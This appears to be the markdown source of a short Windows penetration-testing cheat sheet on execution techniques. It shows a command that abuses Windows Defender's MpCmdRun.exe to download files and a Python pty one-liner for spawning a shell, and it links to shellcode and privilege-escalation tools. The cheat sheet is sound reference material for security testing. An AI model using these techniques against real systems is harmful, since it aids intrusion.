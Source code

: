 ```yaml
---
layout: post
title: pen / win / exec
category: pen
parent: cheatsheets
modified_date: 2023-07-16
permalink: /pen/win/exec
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

**Menu**
<!-- vscode-markdown-toc -->
* [dl](#dl)
* [rshell](#rshell)
* [escalation](#escalation)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='dl'></a>dl
dl = download
* [/sys/powershell#transfer-http](/sys/powershell/transfer-http)
* [/dev/snippet#python-dl](/dev/snippet#python-dl)
* [juggernaut-sec](https://juggernaut-sec.com/windows-file-transfers-for-hackers/)
```sh
# download
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe -url <url> -path <local-path>
```

## <a name='rshell'></a>rshell
[database](https://shell-storm.org/shellcode/index.html)
```sh
# run bash via python
python -c 'import pty; pty.spawn("/bin/bash")'
```

## <a name='escalation'></a>escalation

[PrivescCheck.ps1](https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1)
